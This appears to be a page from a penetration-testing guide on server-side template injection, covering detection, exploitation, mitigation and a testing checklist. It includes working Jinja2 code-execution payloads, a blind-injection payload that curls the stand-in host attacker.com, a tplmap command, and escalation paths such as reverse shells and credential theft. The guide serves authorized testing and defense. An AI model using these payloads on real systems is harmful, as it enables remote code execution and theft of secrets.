


# Server-Side Template Injection (SSTI)

Inject template syntax for code execution.

## Overview Diagram

Visual summary of the **attack/data flow** and the **five-phase testing workflow** for this topic.

### Attack / Data Flow

<div class="sr-diagram" markdown="1">



</div>

### Testing Workflow

<div class="sr-diagram sr-diagram-methodology" markdown="1">



</div>

## How It Works

Server-Side Template Injection occurs when user input is embedded into a server-side template engine and interpreted as template syntax rather than static text. Unlike XSS (browser), SSTI executes on the server—often leading to remote code execution.

Common engines:

- **Jinja2** (Python/Flask)
- **Twig** (PHP)
- **Freemarker/Velocity** (Java)
- **ERB** (Ruby)
- **Handlebars** (Node, when server-rendered)

Vulnerability arises when applications use templates for dynamic emails, error pages, or "customizable" user dashboards and pass raw user input into `render()` or equivalent:

```python
template = f"Hello {user_input}"  # dangerous if user_input contains {{ }}
return render_template_string(template)
```

Detection often starts with polyglot probes like `{{7*7}}` returning `49` in the response.

## Exploitation

**Detection**

```
{{7*7}}
${7*7}
<%= 7*7 %>
#{7*7}
```

Different engines respond differently; identify engine from behavior and error messages.

**Jinja2 RCE example (lab/authorized)**

```python
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

**Attack flow**

```
User input in template → engine evaluates expressions → file read / command execution on app server
```

**Blind SSTI**

When output is not reflected, use time-based payloads or out-of-band callbacks:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl attacker.com').read() }}
```

**Tools**

```bash
tplmap -u 'https://target.com/page?name=test'
```

**Escalation paths**

- Read config files and cloud credentials
- Reverse shell from app container
- Pivot to internal network from compromised app tier

## Defense & Mitigation

**Never render user input as template source**. Pass user data only as template **context variables** with fixed templates stored on disk.

**Sandboxing**

- Use engine sandbox modes where available; understand limitations—many "sandboxes" are bypassable.
- Prefer logic-less templates or static generation for user-customizable content.

**Input handling**

- Strict allow-lists for user-controlled display fields.
- Separate admin-only template editing behind strong authorization and audit.

**Detection**

- Scan with template polyglots in QA.
- Code review for `render_template_string`, `eval`, dynamic `Template()` constructors.

**Incident response**

- SSTI RCE equals full application compromise—rotate secrets, rebuild containers, review lateral movement.

## Pro Tips

Practical advice from real engagements — use these to test faster and report better.

!!! tip "Detect engine fast"
    Probe `{{7*7}}`, `${7*7}`, `<%= 7*7 %>`, `#{7*7}`, `*{7*7}` in one Intruder run.

!!! tip "Jinja2 RCE chain"
    `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}` — only in authorized labs.

!!! tip "Blind SSTI"
    Use `{# comment #}` or math expressions that change PDF/email output size.

!!! tip "tplmap automation"
    `./tplmap.py -u URL` identifies engine and suggests exploit paths.

!!! tip "Check export features"
    Report generators and email templates are top SSTI targets — not just search boxes.

## Testing Methodology

Work through each phase in order. Every step has a checkbox — complete them all for thorough, reproducible coverage.

### Phase 1 — Preparation & Scoping

- [ ] Confirm target is in program scope and ROE allows this test type
- [ ] Set up isolated lab or proxy (Burp/ZAP) with scope filters
- [ ] Document baseline application behavior and account roles
- [ ] Identify test accounts for each privilege level
- [ ] Identify template engine from errors, headers, or tech stack

### Phase 2 — Discovery & Mapping

- [ ] Find template injection points: emails, reports, error pages, previews
- [ ] Probe with `{{7*7}}`, `${7*7}`, `<%= 7*7 %>`, `#{7*7}`
- [ ] Note which syntax evaluates to `49` in response
- [ ] Review user-controlled template fragments in admin features

### Phase 3 — Validation & Testing

- [ ] Confirm engine: Jinja2, Twig, Freemarker, Velocity, Smarty, etc.
- [ ] Escalate to info disclosure payloads per engine cheat sheet
- [ ] Test sandbox escapes documented for that engine version
- [ ] Validate blind SSTI via time delays or OOB callbacks

### Phase 4 — Exploitation & Impact Proof

- [ ] Demonstrate file read or limited RCE with engine-specific payload
- [ ] Use tplmap for automated exploitation in lab environments
- [ ] Avoid production RCE unless explicitly authorized
- [ ] Capture template context that enabled injection

### Phase 5 — Documentation & Reporting

- [ ] Write step-by-step reproduction with HTTP requests/responses
- [ ] Capture screenshots or video showing impact (redact sensitive data)
- [ ] Rate severity using program CVSS or impact matrix
- [ ] Provide concrete remediation guidance for developers
- [ ] Retest after fix if program allows verification
- [ ] Name template engine and recommend logic-less templates or sandboxing

## Tools

| Tool | Usage |
|------|-------|
| `tplmap` | [Server-side template injection](../../TOOLS_GUIDE.md#tplmap) |
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |

## Resources

- [PortSwigger SSTI](https://portswigger.net/web-security/server-side-template-injection)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
